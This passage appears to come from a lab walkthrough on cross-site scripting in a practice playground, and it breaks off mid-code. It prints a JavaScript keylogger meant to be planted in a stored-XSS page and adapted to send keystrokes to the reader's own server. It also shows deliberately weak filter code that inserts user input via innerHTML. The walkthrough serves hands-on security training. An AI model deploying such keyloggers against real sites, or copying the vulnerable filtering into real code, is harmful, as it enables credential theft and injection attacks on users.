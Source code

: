 ### XSS Keylogger 

Javascript can be used for many things, including creating an event to listen for key-presses.

Navigate to the "Key Logger" part of the XSS playground and complete the challenge.

```

Key-Logger with XSS

Javascript can be used for many things, including creating an event to listen for keypresses.

<script type="text/javascript">
 let l = ""; // Variable to store key-strokes in
 document.onkeypress = function (e) { // Event to listen for key presses
   l += e.key; // If user types, log it to the l variable
   console.log(l); // update this line to post to your own server
 }
</script>

Now you have this script, can you adapt it and post it into the stored xss page. Then start typing on that page and see it appear on the logs page.
Logs
Start typing something on the page. It will log here.

```

Create your own version of an XSS keylogger and see it appear in the logs part of the site.

### Filter Evasion 

There are many techniques used to filter malicious payloads that are used with cross-site scripting. It will be your job to bypass 4 commonly used filters.

Navigate to "Filter Evasion" in the XSS Playground to get started.

Cross-site scripting are extremely common. Below are a few reports of XSS found in massive applications; you can get paid very well for finding and reporting these vulnerabilities.  

    XSS found in Shopify https://hackerone.com/reports/415484
    $7,500 for XSS found in Steam chat https://hackerone.com/reports/409850
    $2,500 for XSS in HackerOne https://hackerone.com/reports/449351
    XSS found in Instagram https://hackerone.com/reports/283825

Using:
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

and

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html


```
    <script>

      let inputted = ''
      let question = 0
      document.querySelector('#submit-1').addEventListener("click", function() {
        let chal1El = document.querySelector('#challenge-1')
        inputted = chal1El.value
        question = 1
        document.querySelector('#challenge-1-input').innerHTML = inputted.replace("script", "")
      });

      document.querySelector('#submit-2').addEventListener("click", async function() {
        let chal2El = document.querySelector('#challenge-2')
        inputted = chal2El.value
        question = 2
        document.querySelector('#challenge-2-input').innerHTML = inputted.replace("alert", "")
```